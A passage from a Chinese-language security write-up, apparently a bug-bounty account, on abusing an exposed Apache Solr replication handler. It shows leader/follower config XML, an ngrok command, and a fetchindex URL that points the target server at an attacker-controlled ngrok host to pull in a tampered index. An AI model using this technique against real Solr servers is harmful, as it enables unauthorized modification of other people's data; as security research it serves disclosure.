   
此时，已成功复制了目标服务器的数据集，并添加了一个新的1337-elite-hacker记录。接下来，需要检查是否可以将该数据集分发回目标服务器，还是这只是一个无用的尝试。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/NGIAw2Z6vnLSsTccx7j0fJVU0OOoqKA8lvpAJHElQA6DiaJniaZb0daO3Kppz9ndV9Z2hHsjMuH61r2hu0jesGSg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**四、将数据复制回目标服务器**  
  
  
为了将本地服务器配置为**复制主服务器（replication leader），**  
而不是**从服务器（follower）**  
，我需要修改先前添加到核心配置文件中的**复制请求处理程序（replication request handler）**  
配置，如下所示：  
  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">  <lst name="leader">   <str name="replicateAfter">optimize</str>   <str name="backupAfter">optimize</str>  </lst> </requestHandler>
```  
  
  
然后，重新启动服务器以应用更改，并使用  
ngrok  
将本地主服务器暴露到互联网：  
  
```
$ ngrok http 9000
```  
  
  
为了检查复制主服务器是否正常工作，笔者首先在本地进行了测试，创建了一个名为"replica"  
的新核心，并将其配置为从服务器（follower），指向**ngrok**  
提供的URL：  
  
```
<requestHandler name="/replication" class="solr.ReplicationHandler">   <lst name="slave">     <str name="leaderUrl">https://<ngrok_url>/solr/hacefresk0/</str>     <str name="pollInterval">00:00:20</str>   </lst> </requestHandler>
```  
  
  
执行"fetchindex"  
命令，成功从本地主服务器复制了数据集！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnTiaLZvVnPXEED5JBmflm2oxQzogLsHrZyIl6ia01wa4AsxGUkcN5B9RO9LHz510hDwAFHT9ykIYbDw/640?wx_fmt=png&from=appmsg "")  
  
  
接下来，在目标服务器上执行该操作了,访问以下URL以触发复制：  
  
```
https://target.com/solr/de/replication?command=fetchindex&leaderUrl=https://<ngrok_url>/solr/hacefresk0/
```  
  
  
然而，**ngrok**  
并未收到任何连接。即使重复了这个过程多次，重置了一切，但依然无法让它正常工作。后来，笔者再次执行本地测试，一切正常，但在目标服务器上始终无法成功，因此笔者选择了暂停。  
  
  
后来，在玩游戏的时候，笔者突然想到：**我并不知道目标服务器正在运行的 Solr 版本**  
，也许是版本不匹配导致了复制失败。于是，笔者回去尝试在目标服务器上触发一些错误，看看是否能泄笔者Solr版本信息。最终，我发现目标服务器使用的是**Solr 8.11**  
，此时笔者已经不记得是如何触发错误并获取该版本信息的了，可能是某个复制请求处理程序的报错）。得知这一信息后，笔者立即从  
Solr 官网  
下载了 **Solr 8.11**  
的二进制版本，并开始重建相同的测试环境。  
  